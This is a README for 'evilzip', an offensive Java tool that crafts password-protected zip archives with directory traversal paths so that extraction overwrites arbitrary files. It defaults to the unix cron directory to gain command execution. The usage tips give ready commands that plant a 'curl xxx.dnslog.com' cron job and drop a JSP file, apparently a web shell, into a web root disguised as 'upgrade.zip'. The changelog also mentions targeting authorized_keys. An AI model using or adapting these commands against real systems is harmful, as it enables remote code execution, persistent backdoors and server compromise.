 # evilzip

## logs

* 20210723,去除可执行权限(crontab和authorized_keys均仅需可读可写即可 无需执行权限)。

* 20210701 修改权限问题,让解压后的文件默认就有读写执行的权限。

## About
evilzip lets you create a zip file(with password) that contains files with directory traversal characters in their embedded path.  Most commercial zip program (winzip, etc) will prevent extraction of zip files whose embedded files contain paths with directory traversal characters.  However, many software development libraries do not include these same protection mechanisms (ex. Java, PHP, etc).  If a program and/or library does not prevent directory traversal characters then evilzip can be used to generate zip files that, once extracted, will place a file at an arbitrary location on the target system.

## 关于项目

原使用的创建恶意压缩包的工具[evilarc](https://github.com/ptoomey3/evilarc)不支持带密码的压缩包,且没法修改,因为其使用的zipfile模块不支持加密码压缩，所以就有了这个项目。在evilarc的基础上新增了一些自己常用的功能，比如仅需一个参数就生成可以穿越到unix系统计划任务的压缩包。

具体参数如下:

```
╭─ fucker ~/Coding/Java/Intellij/evilzip/
╰─ java -jar evilzip.jar -h
Usage: java -jar EvilZip.jar [options]
  Options:
    -f, --file
      File to input archive.
      Default: root
    -p, --path
      Path to include in filename after traversal
      Default: var/spool/cron/
    -pwd, --password
      ZIP file encrypt password.
    -o, --output
      File to output archive.
      Default: evil.zip
    -d, --depth
      Number directories to traverse.
      Default: 8
    -t, --type
      OS platform for archive (win|unix).
      Default: unix
    -c, --cmd
      Command to execute.
    -h, --help
      Show this message
```

## 一些tips

快速生成在unix系统执行命令的压缩包(目录穿越到计划任务):

```
java -jar evilzip.jar -c "curl xxx.dnslog.com"
```

读取本地的gaga.jsp 让其穿越10层目录最终解压到/wwwroot/xxxx/gaga.jsp 解压密码为update-password 输出的压缩包名为upgrade.zip

```
java -jar evilzip.jar -f gaga.jsp -d 10 -p wwwroot/xxxx/ -o upgrade.zip -t unix -pwd "update-password"
```

大部分参数均带有默认值，不用指定也行。
